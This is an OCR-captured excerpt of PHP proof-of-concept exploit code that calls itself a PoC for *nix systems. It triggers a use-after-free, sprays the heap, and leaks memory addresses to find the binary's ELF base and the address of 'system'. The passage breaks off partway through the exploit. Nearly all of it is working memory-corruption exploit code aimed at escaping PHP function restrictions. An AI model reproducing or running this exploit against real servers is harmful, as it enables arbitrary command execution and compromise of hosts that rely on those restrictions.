 ```php
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }
 
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
 
            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
 
    function trigger_uaf($arg) {
 
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
 
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
 
    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
 
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
 
    $helper = new Helper;
    $helper->b = function ($x) { };
 
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
 
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
 
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
 
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
 
    $closure_obj = str2ptr($abc, 0x20);
 
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
```